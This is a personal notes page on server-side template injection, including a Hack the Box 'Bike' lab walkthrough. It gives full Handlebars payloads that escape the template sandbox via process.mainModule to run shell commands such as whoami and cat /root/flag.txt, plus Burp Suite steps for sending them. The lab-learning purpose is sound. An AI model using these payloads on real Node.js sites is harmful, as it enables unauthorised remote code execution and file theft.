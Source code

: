 # Server Side Template Injection

## Contents: 
- [Template Engines]()
- [Exploit: Via Burp Suite]()
- [Hack the Box: Bike]()
  - [Encode to URL]()
  - [Problem]()
  - [Solution]()

[Server-side template injection](https://portswigger.net/research/server-side-template-injection) is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server.
- SSTI is an exploitation technique where the attacker injects native (to the Template Engine) code into a web page. The code is then run via the Template Engine and the attacker gains code execution on the affected server.
- This attack is very common on `Node.js` websites.
- You must first determine **_if_** you have a Template Engine.

## Template Engines
- Template Engines are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client.
- Template Engines, like all software, are prone to vulnerabilities, like for example Server Side Template Injection (SSTI).
- Link: [Various exploitation techniques for various different template engines.](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- That site states: 

> Identifying the template engine involves analyzing error messages or manually testing various language-specific payloads. Common payloads causing errors include `${7/0}`, `{{7/0}}`, and `<%= 7/0 %>`. Observing the server's response to mathematical operations helps pinpoint the specific template engine.

## Exploit: Via Burp Suite
- Following the previous link to [hacktriks' SSTI how-to page.](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).. 
- Follow his testing inputs to find out if your target sitew is using a Template Engine, and then which one.
- He has several Engines with specific exploit code.

## Hack the Box: Bike
- I followed hacktriks'testing inputs and found out the target site is running Handlebars. 
- [Hacktriks has a write-up on exploiting Handlebars](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)
- His exploit code: 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- NOTE THE LINE: `{{this.push "return require('child_process').exec('whoami');"}}`
- That line tests remote code execution with `whoami`

### Encode to URL
- Copy the above code and paste it into Burp's Decoder. Select `Encode as... URL`
- That should give you a long string of percent code. That's what we're going to use.

### Problem
- Start up Burp Suite. Turn on FoxyProxy. Use Burp's Proxy tab to capture a Submit from the website (anything will do). 
- Send the capture to Repeater... replace the text being sent via the Form with our URL encoded exploit.

![Pasted image 20240229203438](https://github.com/GregKedrovsky/Hacking/assets/26492233/2dd3fb4f-7035-4c22-8311-048575b3e692)

- This does not work right outta the box. We get an error: The response shows an error that states `require is not defined`.  
- `require` is a keyword in Node.js that is used to load code from other modules or files. The above code is attempting to load the Child Process module into memory and use it to execute system commands (in this case `whoami`).
- Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. 

### Solution
- Node.js may allow the [process object](https://nodejs.org/api/process.html#process) and if it does, we can use that to load the `require` module. Need to test it first with this code (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process;"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

-  The line with `{{this.push "return process;"}}` should return `[object process]`. That indicates we can use this object.
- The `process` object has a [mainModule](https://nodejs.org/api/process.html#processmainmodule). It is deprecated, but it still might be available and useful ([blog post on the module](https://www.geeksforgeeks.org/node-js-process-mainmodule-property/)). 
- Test to see if the mainModule is accessible to us (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule;"}}                #  this is the line
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- There is no error. We get an `[object Object]` return that indicates it worked. Accessible.
- Try to get a system command to work (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- Line to watch: 
  `{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`
- That should give you `root`
- Now just replace `whoami` with `ls /root` and you should see the flag file. Use `cat /root/flag.txt` in the line above (encode to URL, paste into Repeater). Should get it.

